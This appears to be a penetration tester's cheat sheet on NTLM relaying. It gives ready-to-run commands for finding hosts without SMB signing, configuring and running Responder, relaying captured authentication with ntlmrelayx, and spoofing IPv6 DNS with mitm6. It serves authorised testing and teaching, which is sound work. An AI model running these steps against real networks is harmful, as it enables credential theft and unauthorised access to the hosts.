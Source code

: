 # NTLM Relaying

After observing LLMNR and/or NBT-NS traffic with Responder and forcing the client to authenticate to your machine, it is possible for the attacker to relay the Net-NTLMv2 hash obtained to all systems within scope that have SMB Signing Disabled.&#x20;

### Identifying Systems with SMB Signing Disabled

#### RunFinger.py

Finger is included with Responder.py in the `/tools` directory. Simply run the tool against either a subnet or file and parse the results using `cut`

```bash
python3 RunFinger.py -i $subnet
```

#### CrackMapExec

A list can also easily be created with [CrackMapExec](https://github.com/byt3bl33d3r/CrackMapExec):

```bash
crackmapexec smb $subnet --gen-relay-list 
```

#### Nmap

Nmap can also create a list of hosts that have SMB Signing Disabled:

```bash
nmap --script=smb-security-mode -p445 $ip
```

### SMB Relaying 101

After confirming LLMNR/NBT-NS traffic and identifying systems with SMB Signing Disabled, we are ready to perform the attack. First, we need modify the `Responder.conf` file and disable both SMB and HTTP:

```python
# responder.conf

SQL = On
SMB = Off    
Kerberos = On
FTP = On
POP = On
SMTP = On
IMAP = On
HTTP = Off
HTTPS = On
DNS = On
LDAP = On
```

We can then run Responder:

```bash
responder -I eth0 -dwP
```

We can then run `ntlmrelayx.py` from Impacket, supplying our file of hosts previously identified to have SMB Signing Disabled.

```bash
# Example generic relaying
python3 ntlmrelayx.py -tf smbdisabled.out --smb2-support

# Save hashes from relaying locally
python3 ntlmrelayx.py -tf smbdisabled.out --smb2-support -of
```

#### Relaying with SOCKS

We can also enable SOCKS support while relaying for interactive sessions. Using this flag will also provide you with a session on the host if the user is not a local administrator:

```bash
python3 ntlmrelayx.py -tf smbdisabled.out --smb2-support --socks
```

### Attacking IPv6

While a majority of companies do not utilize IPv6, little know that it is actually enabled by default. By using a tool such as mitm6, we can act as a malicious DNS server and redirect traffic to our attack host. This attack can be performed by using the tool [mitm6](https://blog.fox-it.com/2018/01/11/mitm6-compromising-ipv4-networks-via-ipv6/).&#x20;

The following command demonstrates basic usage of IPv6:

```bash
sudo mitm6 -d $domain
```

Additionally, the following command demonstrates running mitm6 with the `--ignore-nofqnd` flag which will ignore DHCPv6 queries that do not contain the Fully Qualfiied Domain Name:

```bash
sudo mitm6 -d $domain --ignore-nofqnd
```

#### Troubleshooting

If your testing machine was provisioned in ESXi, the following setting needs to be modified via the web console or it will not work as expected:

```bash
Networking -> VM Network -> Edit Settings -> Promiscuous Mode: Accept

# mitm6 can then be ran with the --no-ra flag.
```

### References

{% embed url="https://byt3bl33d3r.github.io/practical-guide-to-ntlm-relaying-in-2017-aka-getting-a-foothold-in-under-5-minutes.html" %}

{% embed url="https://luemmelsec.github.io/Relaying-101/#ntlm-downgrade-attack" %}

{% embed url="https://en.hackndo.com/ntlm-relay" %}

{% embed url="https://docs.microsoft.com/en-us/archive/blogs/josebda/the-basics-of-smb-signing-covering-both-smb1-and-smb2" %}

{% embed url="https://aas-s3curity.gitbook.io/cheatsheet/internalpentest/active-directory/exploitation/exploit-without-account/smb-relay" %}

{% embed url="https://www.secureauth.com/blog/playing-with-relayed-credentials/" %}
